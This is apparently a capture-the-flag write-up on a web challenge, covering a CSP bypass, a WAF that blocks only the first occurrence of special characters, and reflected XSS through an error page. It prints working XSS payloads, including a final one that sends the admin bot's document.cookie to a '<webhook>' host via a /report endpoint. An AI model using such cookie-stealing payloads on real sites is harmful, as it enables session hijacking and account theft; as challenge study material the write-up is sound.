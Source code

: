 ## Challenge Writeup: CSP Bypass, WAF Restriction, and XSS Exploitation

### Summary of the Challenge
The web application presented a series of vulnerabilities, including:

1. **Strict Content Security Policy (CSP):** While the CSP was configured to restrict content sources, a bypass was possible due to exploitable behaviors.
2. **/report Endpoint Vulnerability:** A `/report` endpoint accepted a `url` parameter and visited the URL, potentially enabling SSRF and other attacks.
3. **Error Page XSS:** The application’s error page rendered arbitrary input as HTML with a `200 OK` status instead of a proper `404 Not Found`, leading to an XSS vulnerability.
4. **Basic Web Application Firewall (WAF):** A WAF was in place to block payloads containing the first occurrences of `<`, `>`, `"`, `'`, and `` ` ``, introducing additional challenges in crafting exploit payloads.

---

### Observations and Findings

1. **Strict CSP:**
   - The application implemented a CSP allowing only self-hosted resources (`default-src 'self'`). Inline styles (`unsafe-inline`) were permitted, but inline scripts were blocked.
   - Despite these restrictions, misconfigurations/Quirks in the application left room for bypasses.

2. **/report Endpoint:**
   - The `/report` endpoint accepted a `url` parameter and triggered a server-side visit to the specified URL.
   - This endpoint introduced opportunities for server-side request forgery (SSRF) or leveraging the bot to trigger client-side vulnerabilities.

3. **Error Page Vulnerability:**
   - Accessing an invalid path returned a `200 OK` status and rendered the requested path as `text/html`.
   - This behavior allowed for reflective XSS by injecting scripts or malicious HTML into the path.

4. **WAF Restrictions:**
   - The WAF blocked the first occurrence of specific special characters, such as `<`, `>`, `"`, `'`, and `` ` ``.
   - Crafting payloads required creative encoding or avoidance strategies to bypass these restrictions.

---

### Exploitation Process

#### **Step 1: Bypassing the WAF**
To bypass the WAF restrictions:
   - Used encoded characters or alternate representations of blocked characters.
   - For example, the character `<` could be replaced with its HTML entity (`&#60;`) or omitted in favor of alternative scripting techniques.

#### **Step 2: XSS via Error Page**
The error page’s behavior allowed a crafted URL like the following to execute arbitrary JavaScript:

```
http://example.com/x/;console.log()//
```

With the WAF in place, the payload was adjusted to bypass the restrictions:

```
<`"'><script src="/x/;alert(1)//"></script>
```

This encoded payload successfully executed JavaScript while circumventing WAF checks.


Once you get he xss you can just directly send it to the admin which is sitting on /report?url=<url>

	```
	<>"'`<script src="/x/;location.href='<webhook>/'+encodeURI(document.cookie);//"></script>
	```

You can steal the cookie of the admin which ends up being the flag and hence challenge completed